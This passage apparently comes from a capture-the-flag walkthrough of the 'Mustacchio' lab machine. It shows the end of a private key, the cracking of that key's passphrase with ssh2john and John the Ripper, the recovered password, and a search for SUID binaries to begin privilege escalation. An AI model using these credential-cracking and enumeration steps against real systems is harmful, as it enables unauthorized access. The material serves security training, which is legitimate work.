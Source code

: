 ```
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

If we try logging using the key we notice it is encrypted, which means we need the passphrase, for this, let's try cracking it using `ssh2john`:

```
ssh2john id_rsa > id_hash.txt
```

Now, let's crack it:

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_hash.txt
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:03 DONE (2025-03-17 23:42) 0.2688g/s 3855Kp/s 3855Kc/s 3855KC/sa6_123..*7¡Vamos!
Session completed
```

Got the passphrase:

```
urieljames
```

We can now log into ssh with it:


![](cybersecurity/images/Pasted%2520image%252020250317184506.png)

Let's start privilege escalation.



# PRIVILEGE ESCALATION
---

Let's find SUID binaries with root permissions:

```
barry@mustacchio:~$ find / -perm -4000 2>/dev/null

/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
```